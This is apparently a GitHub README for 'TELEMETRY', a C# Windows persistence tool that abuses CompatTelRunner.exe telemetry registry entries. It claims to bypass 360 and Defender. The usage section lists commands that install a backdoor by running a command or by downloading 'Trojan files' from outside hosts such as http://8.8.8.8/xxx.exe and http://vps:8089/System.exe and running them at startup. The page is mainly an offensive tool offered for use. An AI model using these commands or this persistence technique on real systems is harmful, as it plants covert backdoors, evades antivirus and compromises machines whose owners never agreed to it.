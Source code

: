 # TELEMETRY


### Background

[TELEMETRY](#TELEMETRY-1) is a C# For Windows PERSISTENCE

Today we’re going to talk about a persistence method that takes advantage of some of the wonderful telemetry that Microsoft has included in Windows versions for the last decade. The process outlined here affects Windows machines from 2008R2/Windows 7 through 2019/Windows 10.

- **Local admin rights to install (requires the ability to write to HKLM)**
- **Have CompatTelRunner.exe**
- **2008R2/Windows 7 through 2019/Windows 10**
- **Bypass 360&Defender...**

### Command Line Usage

        ABUSING WINDOWS TELEMETRY FOR PERSISTENCE
                                                 .Imanfeng
        Features:
            Install:   -   Deployment authority maintains backdoor
    
        Command:
            TELEMETRY.exe install /command:calc
            -   Execute command without file backdoor
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe /path:C:\Windows\Temp\check.exe
            -   Remotely download Trojan files to the specified directory for backdoor startup
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe
            -   Remotely download Trojan files to C:\\Windows\\Temp\\compattelrun.exe for backdoor startup
    
            TELEMETRY.exe install /path:C:\Windows\Temp\check.exe
            -   Set path Trojan files for backdoor startup
    
        Parameter:
            /command: -   Execute Command
            /url:     -   Download FROM
            /path:    -   Download To

- Execute command without file backdoor

  ```
  Telemetry.exe install /command:calc
  ```

  ![1](PIC/2.png)

  

- Remotely download Trojan files for backdoor startup

  ```
  Telemetry.exe install /url:http://vps:8089/System.exe
  ```

  ![2](PIC/1.png)

  

### Learn

https://www.trustedsec.com/blog/abusing-windows-telemetry-for-persistence/
